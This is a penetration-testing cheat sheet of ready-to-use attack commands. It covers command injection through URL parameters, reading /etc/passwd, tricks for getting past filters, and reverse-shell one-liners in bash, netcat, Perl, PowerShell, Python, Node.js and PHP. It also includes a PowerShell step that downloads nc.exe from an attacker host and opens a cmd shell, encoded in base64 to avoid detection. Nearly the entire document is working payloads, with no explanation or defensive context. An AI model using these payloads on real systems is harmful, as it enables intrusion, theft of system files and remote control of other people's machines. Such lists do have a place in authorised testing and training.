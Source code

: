 	Note:
		URL encode commands when submitting
		/tmp, /var/tmp and /var/lock are typically world writeable
	In below, replace [PORT]

# Shells
## In URL
Sometimes additional commands can be appended to variables parsed server-side.
`?variable=legitvalue;ls+-l`
## Python
Python3
`python3 -c "print(open('/etc/passwd', 'r').read())"`
Python2
`python2 -c "print(open('/etc/passwd',+'r').read())"`
## Filter Bypasses
Using null statements to bypass string detection
`whoa$()mi, l$()s -$()l`

Base64 encoding
`echo "$(openssl enc -base64 -d <<< "Y2F0IC9ldGMvcGFzc3dkCg==")"`

# Reverse Shells

## Localhost
Initialise a netcat listener
`nc -nlvp PORT`
## Bash
`bash -c 'bash -i >& /dev/tcp/127.0.0.1/[PORT] 0>&1'`
`sh -i >& /dev/tcp/127.0.0.1/[PORT] 0>&1`
## Netcat
`/bin/nc -nv 127.0.0.1 [PORT] -e /bin/bash`
## Perl
`perl -e 'use Socket;$i="127.0.0.1";$p=[PORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

## Powershell
Opening sockets using -Exec Bypass
`powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("127.0.0.1",[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

Opening Sockets using $client
`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

-------------------------------
If nc.exe is present
`(new-object net.webclient).downloadfile("http://[HOST ADDRESS FOR THE NC.EXE FILE]:8000/nc.exe", "c:\windows\tasks\nc.exe"); c:\windows\tasks\nc.exe -nv [LISTENER ADDRESS] 9999 -e c:\windows\system32\cmd.exe;`

Encode the file using:
`python3 -c 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://[HOST ADDRESS FOR THE NC.EXE FILE]:8000/nc.exe", "c:\windows\tasks\nc.exe"); c:\windows\tasks\nc.exe -nv [LISTENER ADDRESS] 9999 -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'`

Run the payload using:
`powershell -exec bypass -enc [ENCODED DATA]`
## Python2
`python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",[PORT]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`
## JavaScript 
Uses JavaScript to spawn a netcat connection
`echo "require('child_process').exec('nc -nv 127.0.0.1 [PORT] -e /bin/bash')" > /var/tmp/shell.js ; node /var/tmp/shell.js`
## PHP
Various ways of using PHP to spawn connection
```
php -r '$sock=fsockopen("127.0.0.1",[PORT]);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("127.0.0.1",[PORT]);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("127.0.0.1",[PORT]);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("127.0.0.1",[PORT]);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("127.0.0.1",[PORT]);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
php -r "system(\"bash -c 'bash -i >& /dev/tcp/127.0.0.1/[PORT] 0>&1'\");"
```
